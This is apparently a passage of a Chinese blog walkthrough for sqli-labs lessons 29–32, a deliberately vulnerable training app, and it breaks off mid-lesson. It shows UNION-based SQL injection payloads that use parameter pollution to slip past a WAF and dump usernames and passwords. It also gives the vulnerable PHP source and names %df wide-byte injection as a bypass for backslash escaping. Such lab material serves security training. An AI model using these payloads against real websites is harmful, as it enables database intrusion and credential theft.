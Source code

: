     ?id=1&id=-1' union select 1,2,(select group_concat(username,password) from users)--+
    
        

注意这里的&是在两个id值之间是必不可少的。-
这也是一种用的过waf的技巧。通过构造多个值，来让后面的传入值通过检测。

## less-30

    请求方式 get
    
    闭合方式 '
    
    注入方式 联合，布尔，延时
    
        

payload：-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201218192753863.png)

## Less-31

    和上一关相似，只是闭合方式不同
    
    请求方式 get
    
    闭合方式 ")
    
    注入方式 联合，布尔，延时
    
        

    ?id=1&id=-1") union select 1,2,(select group_concat(username,password) from users)--+
    
        

## Less-32

源码分析

    if(isset($_GET['id'])){
     
    $id=check_addslashes($_GET['id']);
     
    $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
     
    }
    //在 ' " / 敏感字符前加反斜杠
    function check_addslashes($string){
        $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);        
        $string = preg_replace('/\'/i', '\\\'', $string);                              
        $string = preg_replace('/\"/', "\\\"", $string);
        return $string;
    }
     
    
        

通过分析，我们得知其防御措施是在特殊字符（’ " /） 前加反斜杠，绕过姿势：

宽字节注入，使用%df 吃掉 \\ 或 将 ’ 中的 \\ 过滤掉-
请求方式 get
